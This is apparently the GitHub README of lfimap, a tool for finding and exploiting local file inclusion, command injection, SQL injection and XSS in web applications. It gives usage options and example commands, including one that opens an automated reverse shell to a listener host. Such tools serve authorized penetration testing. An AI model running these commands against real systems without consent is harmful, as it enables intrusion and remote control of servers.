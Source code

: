 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option to specify delay in between requests
- Option for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### What features are working currently
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, $IFS, ${IFS%??})
- Scan parameters for basic blind sql injection (currently supports only MySQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS test using img onerror JavaScript event handler)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST request parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### What features will work in future
- RCE attack using /self/fd, /self/environ techniques and http error log poisoning
- Better Generic blind SQLi test support for Oracle, MsSQL and PostgreSQL database engines
- Better XSS test using different tags (that will try to bypass waf with more obscure payloads)
- Automatic parameter recognition, select parameters to test with * (star) value or with '-p' parameter
- Request retry system for dropped requests
- Support testing with raw http request from a file
- Support for different transport protocols in POST request (xml and json)
- Support to test and exploit HTTP header values
- Enumeration category of options that will use found vulnerabilities to find out more about the system
- Output results to a file
- False positive check

### -h, --help
```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] ć
[--useragent <agent>] [--referer <referer>] [--param <name>] [--delay <seconds>] [--no-stop] [-f] [-i] 
[-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] 
[-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>         		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --delay <seconds>    		 Specify delay in seconds in-between requests
  --no-stop            		 Don't stop using same method upon findings
  --http-ok <number>   		 Specify http response code(s) to treat as valid

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter:// wrapper
  -i, --input          		 Attack using input:// wrapper
  -d, --data           		 Attack using data:// wrapper
  -e, --expect         		 Attack using expect:// wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file:// wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify wordlist for truncation test
  -wC <path>           		 Specify wordlist for command injection test

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
